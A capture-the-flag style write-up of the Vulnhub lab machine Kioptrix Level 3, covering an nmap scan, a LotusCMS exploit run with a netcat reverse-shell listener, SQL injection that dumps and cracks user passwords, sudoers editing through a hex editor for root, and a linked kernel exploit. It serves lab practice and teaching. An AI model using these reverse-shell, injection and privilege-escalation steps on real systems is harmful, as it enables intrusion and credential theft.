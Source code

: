 <h1>Kioptrix: Level 3 Write-up</h1>

<h2>NMAP</h2>

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
```

On Port 80 Lotus Cms is running so i googled for Exploit :

Exploit : https://github.com/carnal0wnage/exploits-1/blob/master/lotus_eval.py


Command : 

```
python lotus_eval.py 192.168.43.49 / 192.168.43.252 443  
nc -lvp 443
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%203/Images/shell.png)


<h2>Privilege Escalation</h2>

<h3>Method 1</h3>

**kioptrix3.com/gallery/gallery.php?id=1** is vulnerable to SQL injection through the id parameter.

Founds Creds After using sqlmap 

```
Database: gallery  
Table: dev_accounts  
[2 entries]  
+----+------------+---------------------------------------------+  
| id | username   | password                                    |  
+----+------------+---------------------------------------------+  
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |  
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |  
+----+------------+---------------------------------------------+ 
```

Login via ssh using **loneferret** creds and user

On general Enumeration i found "/usr/local/bin/ht" with suid permission 

Its actually a hex editor 

NOW LET's TAKING ADVANTAGE OF THIS

```
export TERM=xterm
sudo ht /etc/users 
```
change mode to text by pressing F6, you’ll notice the following line:

```
loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht  
```

simply replace the "!" by a space (0x20), so running /usr/bin/su gives
 root.

```
loneferret@Kioptrix3:~$ sudo /bin/su  
root@Kioptrix3:/home/loneferret# whoami  
root  
```

<h3>Method 2</h3>

Exploting Kernel :

Exploit : https://www.exploit-db.com/exploits/40839

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%203/Images/priv%20esc.png)

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/Kioptrix%3A%20Level%203/Images/rooted.png)
